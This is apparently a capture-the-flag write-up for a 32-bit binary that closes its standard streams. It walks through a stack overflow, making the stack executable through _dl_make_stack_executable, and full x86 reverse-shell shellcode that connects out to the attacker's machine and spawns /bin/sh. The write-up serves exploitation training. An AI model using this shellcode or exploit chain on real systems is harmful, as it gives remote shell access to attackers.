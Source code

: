 # kidding

The challenge gives us a file without libc

Running it

![](https://hackmd.io/_uploads/H1xv4I0qn.png)

The program gets an input then ends

Debuging with gdb

`main`

```
Dump of assembler code for function main:
   0x0804887c <+0>:     push   ebp
   0x0804887d <+1>:     mov    ebp,esp
   0x0804887f <+3>:     sub    esp,0x8
   0x08048882 <+6>:     push   0x64
   0x08048884 <+8>:     lea    eax,[ebp-0x8]
   0x08048887 <+11>:    push   eax
   0x08048888 <+12>:    push   0x0
   0x0804888a <+14>:    call   0x806d180 <read>
   0x0804888f <+19>:    add    esp,0xc
   0x08048892 <+22>:    push   0x0
   0x08048894 <+24>:    call   0x806d330 <close>
   0x08048899 <+29>:    add    esp,0x4
   0x0804889c <+32>:    push   0x1
   0x0804889e <+34>:    call   0x806d330 <close>
   0x080488a3 <+39>:    add    esp,0x4
   0x080488a6 <+42>:    push   0x2
   0x080488a8 <+44>:    call   0x806d330 <close>
   0x080488ad <+49>:    add    esp,0x4
   0x080488b0 <+52>:    mov    eax,0x0
   0x080488b5 <+57>:    leave
   0x080488b6 <+58>:    ret
```

* So it `read` `0x64` bytes from `sdtin`, stores result in `ebp - 0x8` and call `close(stdin)`, `close(stdout)`, `close(stderr)`

Checksec

![](https://hackmd.io/_uploads/rJ9zvS0q2.png)

Check for process mapping then i see that it doesn't use libc

![](https://hackmd.io/_uploads/Bklw48Cqh.png)


* Then decompile the program with `ida` i see that many functions in libc is in the program. In other word, this program is a libc. But it doesn't have some functions tho
* Since it `close` all standard file stream, we can't interact with it even if we can get a shell. So the idea is using `reverse-shell`
* So i write `reverse-shell shellcode` to stack then executes it

## Make stack executable

Basically the first thing i have to do is making the stack executable

* First i tried to use `mprotect` syscall but it didn't work, then i figured out that the address passed to that has to be `AND` with `0xfffff000`. Even i can make the address align like that but it takes too many gadgets
* Then i found out there's a function that make stack executable for me. It's call `_dl_make_stack_executable`.

```cpp=
unsigned int __usercall dl_make_stack_executable@<eax>(_DWORD *a1@<eax>)
{
  unsigned int result; // eax

  if ( *a1 != _libc_stack_end )
    return 1;
  result = mprotect(*a1 & -dl_pagesize, dl_pagesize);
  if ( result )
    return *(_DWORD *)(__readgsdword(0) - 24);
  *a1 = 0;
  dl_stack_flags |= 1u;
  return result;
}
```

* To make it work, the argument must be `_libc_stack_end`, then it call `mprotect` with `prot` is stored in a global variable called `__stack_prot`. First `__stack_prot` contain `0x100000`

![](https://hackmd.io/_uploads/r1lvEI09n.png)

* So i have to change it to `0x7` (PROT_READ | PROT_WRITE | PROT_EXEC)

```cpp=
#define	PROT_READ	 0x04	/* Pages can be read.  */
#define	PROT_WRITE	 0x02	/* Pages can be written.  */
#define	PROT_EXEC	 0x01	/* Pages can be executed.  */
```

So after making stack executable, i use `jmp esp` to jump to my `reverse-shell shellcode`

## Reverse-shell

You can see [this](https://smarinovic.github.io/posts/Reverse-shell/) for more infomations about `reverse-shell`

* Some syscall i use to create a `reverse-shell`. See [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) for syscall number
```
execve   0xb         //to execute('/bin/sh')
socket   0x167       //to create socket
connect  0x16a       //to connect to our machine
dup2     0x3f        //redirect file stream to socket  
```
* First i wonder if i can use `dup2` with a closed file stream. Reading document for `dup2`

>If the file descriptor newfd was previously open, it is closed
       before being reused; the close is performed silently (i.e., any
       errors during the close are not reported by dup2()).

* `dup2` will `close` the file stream anyway so it's okay

* So my `revese-shell` will be like this after trying to minimize the size

```

//socket(AF_INET, SOCK_STREAM, 0)
push 2
pop ebx                ;ebx = AF_INET for ipv4
push 1
pop ecx                ;ecx = SOCK_STREAM for tcp protocol
push eax
pop edx                ;edx = 0 for ip protocol
mov ax, 0x167 
int 0x80

//eax is now socket file descriptor

//connect(socket, struct sockaddr_in, len)                 
mov edi, eax          ;store the socket in edi to reuse
//create struct on stack
push ebp              ;ip address 
push  {}0002          ;port and AF_INET
mov ecx, esp          ;sockaddr struct
mov ebx, edi          ;ebx = socket
mov dl, 0x10          ;size of (struct sockaddr_in)
mov ax, 0x16a
int 0x80


//dup2(socket, stdin)
mov al, 0x3f
xor ecx, ecx           ;ecx = 0(stdin), ebx is already socket
int 0x80

//dup2(socket, stdout)
mov eax, 0x3f
mov ebx, edi           ;ebx = socket
mov ecx, 1             ;ecx = stdout
int 0x80

//i don't dup2(socket, stderr) here because we don't need it, but it you like you can do it



//execve('/bin/sh')
mov eax, 0xb
push 0x68732f
push 0x6e69622f
mov ebx, esp           ;ebx -> /bin/sh
mov ecx, 0    
mov edx, 0
int 0x80
```


* The problem rises when the payload's length is over `100`. So far to `socket(socket, stdout)` it's okay, i decided to make a `read` syscall after `dup2(socket, stdin)` and continue my shellcode by that `read`
* So in server side it has to send the remained shellcode
* Calculate the distance between `esp` and `eip` to write shellcode at right place

![](https://hackmd.io/_uploads/BJxw4U0cn.png)

* So my payload will be like

```python=
b'A'*0x3c + shell
```

Running it

![](https://hackmd.io/_uploads/r1ew4L0c3.png)

Success get a shell in the program

Checking in server side

![](https://hackmd.io/_uploads/HyevN8A93.png)

It works

![](https://hackmd.io/_uploads/S1mHoANs3.png)
